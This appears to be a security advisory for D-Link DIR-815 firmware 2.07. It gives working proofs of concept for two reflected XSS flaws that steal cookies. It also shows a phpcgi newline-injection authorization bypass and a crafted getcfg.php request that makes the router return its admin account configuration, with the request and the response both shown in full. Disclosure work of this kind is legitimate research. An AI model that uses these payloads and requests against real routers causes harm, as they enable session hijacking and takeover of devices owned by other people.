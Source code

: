 ### Production Description

- Product Page : DIR-815
- Firmware Version : 2.07 (DIR-815_REVB_FIRMWARE_PATCH_2.07.B01) 
- Hardware Version : N/A

### Vulnerabilities Summary

There are several vulnerabilities :

1. **Xss**
2. **Permission bypass** 
3. **Information disclosure**.

### Details - WAN && LAN - revB - XSS

An attacker can use the XSS to target which is an authenticated user in order to steal the authentication cookies.

1. /htdocs/webinc/js/bsc_sms_inbox.php   line: 17

   ```php
   [..]
   var get_Treturn = '<?if($_GET["Treturn"]=="") echo "0"; else echo $_GET["Treturn"];?>';
   [..]
   ```

   The parameter  **$_GET["Treturn"]** has no filter.So the poc:

   ```http://192.168.0.1/bsc_sms_inbox.php?Treturn=1';alert(document.cookie)//```

2. /htdocs/webinc/js/info.php line:27 -30

   ```php
   [..]
   		$title	= "ACTION ".$_GET["RESULT"];
   		if($_GET["REASON"]=="ERR_REQ_TOO_LONG")
   		{
   			$message = "'".i18n("The action requested failed because the file uploaded too large.")."', "."'<a href=\"".$referer."\">".i18n("Click here to return to the previous page.")."</a>'";
   		}
   		echo "\t\tvar msgArray = [".$message."];\n";
   		echo "\t\tBODY.ShowMessage(\"".$title."\", msgArray);\n";
   ?>  },
   [..]
   ```

   The parameter  **$_GET["RESULT"]** has the same problem as the last one,So the poc:

   ```http://192.168.0.1/info.php?RESULT=",msgArray);alert(document.cookie);//```

### Details - WAN && LAN - revB - Permission bypass&Information disclosure

1. **Permission bypass**

   I found some files or some functions only can be accessed by power user,such like:

   /htdocs/web/getcfg.php  line:83-94

   ```php
   function is_power_user()
   {
   	if($_GLOBALS["AUTHORIZED_GROUP"] == "")
   	{
   		return 0;
   	}
   	if($_GLOBALS["AUTHORIZED_GROUP"] < 0)
   	{
   		return 0;
   	}
   	return 1;
   }
   ```

   We can see the ```$_GLOBALS["AUTHORIZED_GROUP"]``` need to be greater than 0 and not a null.

   Phpcgi is a symbolic link to cgibin. Phpcgi is responsible for processing requests to .php, .asp and .txt pagesIt can be through URL, HTTP head or POST request sent by body data analysis.The phpcgi will create a long string, and the string will be treated as a series of key value pairs, and are used in ```$_GET, $_POST and $_SERVER``` dictionary and PHP script variable.Nevertheless, if a request is crafted in a proper way, an attacker can easily bypass authorization.

   Each of the key values pairs is encoded in the following form: _TYPE_KEY = VALUE, where TYPE can be GET, POST, or SERVER. Next, the key value pairs are connected using the branch character '\n'. In this way, we can build a packet by itself to bypass some permission validation.Such like this:

   ```xxx=%0a_POST_AUTHORIZED_GROUP%3d1```

2. **Information disclosure**

   /htdocs/web/getcfg.php  line:94-147

   ```php
   if ($_POST["CACHE"] == "true")
   {
   	echo dump(1, "/runtime/session/".$SESSION_UID."/postxml");
   }
   else
   {
   	if(is_power_user() == 1)
   	{
   		/* cut_count() will return 0 when no or only one token. */
   		$SERVICE_COUNT = cut_count($_POST["SERVICES"], ",");
   		TRACE_debug("GETCFG: got ".$SERVICE_COUNT." service(s): ".$_POST["SERVICES"]);
   		$SERVICE_INDEX = 0;
   		while ($SERVICE_INDEX < $SERVICE_COUNT)
   		{
   			$GETCFG_SVC = cut($_POST["SERVICES"], $SERVICE_INDEX, ",");
   			TRACE_debug("GETCFG: serivce[".$SERVICE_INDEX."] = ".$GETCFG_SVC);
   			if ($GETCFG_SVC!="")
   			{
   				$file = "/htdocs/webinc/getcfg/".$GETCFG_SVC.".xml.php";
   				/* GETCFG_SVC will be passed to the child process. */
   				if (isfile($file)=="1")
   				{
   					if(get("", "/runtime/device/sessions_privatekey")==1)
   					{
   						AES_Encrypt_DBnode($GETCFG_SVC, "Encrypt");
   						dophp("load", $file);
   						AES_Encrypt_DBnode($GETCFG_SVC, "Decrypt");
   					}
   					else
   					{	dophp("load", $file);}
   				}
   			}
   			$SERVICE_INDEX++;
   		}
   	}
   	else
   	{
   		/* not a power user, return error message */
   		echo "\t<result>FAILED</result>\n";
   		echo "\t<message>Not authorized</message>\n";
   	}
   }
   ```

   We can see ```dophp("load", $file)```, the function like a ``include()`` .

   The  variable **$file ** is made up of  **$GETCFG_SVC**, then **$GETCFG_SVC** comes from ```$_POST["SERVICES"]```, there is also no filter,so we can control the variable **$file **, and the permission validation ```is_power_user()```  can be bypassed by last trick. In this way,we can include any other php scripts to get some important informations,such like **DEVICE.ACCOUNT.xml.php**, it returns a username and password to a router,then we can login in the router.

3. **Proof of concept:**

   The http request:

   ```http
   GET /getcfg.php?a=%0a_POST_SERVICES%3DDEVICE.ACCOUNT%0aAUTHORIZED_GROUP%3D1 HTTP/1.1
   Host: 192.168.0.1
   User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux i686; rv:50.0) Gecko/20100101 Firefox/50.0
   Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
   Accept-Language: en-US,en;q=0.5
   Connection: close
   Upgrade-Insecure-Requests: 1
   ```

   the response:

   ```http
   HTTP/1.1 200 OK
   Server: Linux, HTTP/1.1, DIR-815 Ver 2.07
   Date: Sat, 01 Jan 2000 09:32:01 GMT
   Connection: close
   Content-Type: text/xml
   Content-Length: 646

   <?xml version="1.0" encoding="utf-8"?>
   <postxml>
   <module>
   	<service>DEVICE.ACCOUNT</service>
   	<device>
   		<gw_name>DIR-815</gw_name>
   		<account>
   			<seqno></seqno>
   			<max>1</max>
   			<count>1</count>
   			<entry>
   				<uid></uid>
   				<name>Admin</name>
   				<usrid></usrid>
   				<password></password>
   				<group>0</group>
   				<description></description>
   			</entry>
   		</account>
   		<group>
   			<seqno></seqno>
   			<max></max>
   			<count>0</count>
   		</group>
   		<session>
   			<captcha>0</captcha>
   			<dummy></dummy>
   			<timeout>180</timeout>
   			<maxsession>128</maxsession>
   			<maxauthorized>16</maxauthorized>
   		</session>
   	</device>
   </module>
   </postxml>
   ```

   ​